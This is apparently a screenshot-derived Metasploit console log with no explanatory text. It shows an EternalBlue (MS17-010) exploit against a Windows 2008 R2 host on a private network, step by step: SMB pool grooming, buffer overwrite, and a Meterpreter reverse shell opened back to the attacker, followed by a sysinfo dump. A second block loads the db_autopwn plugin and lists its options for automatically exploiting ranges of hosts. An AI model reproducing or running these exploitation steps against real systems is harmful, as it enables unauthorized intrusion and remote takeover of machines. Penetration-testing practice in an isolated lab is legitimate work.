 ```
[*] 192.168.248.133:445 - Sending all but last fragment of exploit packet
[*] 192.168.248.133:445 - Starting non-paged pool grooming
[+] 192.168.248.133:445 - Sending SMBv2 buffers
[+] 192.168.248.133:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.248.133:445 - Sending final SMBv2 buffers.
[*] 192.168.248.133:445 - Sending last fragment of exploit packet!
[*] 192.168.248.133:445 - Receiving response from exploit packet
[+] 192.168.248.133:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.248.133:445 - Sending egg to corrupted connection.
[*] 192.168.248.133:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 192.168.248.133
[+] 192.168.248.133:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.248.133:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.248.133:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 1 opened (192.168.248.148:4444 -> 192.168.248.133:49170) at 2023-01-08 08:40:10 -0500

meterpreter > sysinfo
Computer        : WIN-4QCPUB6FIVL
OS              : Windows 2008 R2 (6.1 Build 7600).
Architecture    : x64
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.248.133 - Meterpreter session 1 closed.  Reason: User exit
```

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > load db_autopwn
[*] Successfully loaded plugin: db_autopwn
msf6 exploit(windows/smb/ms17_010_eternalblue) > db_autopwn
[-] The db_autopwn command is DEPRECATED
[-] See http://r-7.co/xY65Zr instead
[*] Usage: db_autopwn [options]
        -h          Display this help text
        -t          Show all matching exploit modules
        -x          Select modules based on vulnerability references
        -p          Select modules based on open ports
        -e          Launch exploits against all matched targets
        -r          Use a reverse connect shell
        -b          Use a bind shell on a random port (default)
        -q          Disable exploit module output
        -R  [rank]  Only run modules with a minimal rank
        -I  [range] Only exploit hosts inside this range
        -X  [range] Always exclude hosts inside this range
        -PI [range] Only exploit hosts with these ports open
        -PX [range] Always exclude hosts with these ports open
        -m  [regex] Only run modules whose name matches the regex
        -T  [secs]  Maximum runtime for any exploit in seconds

```
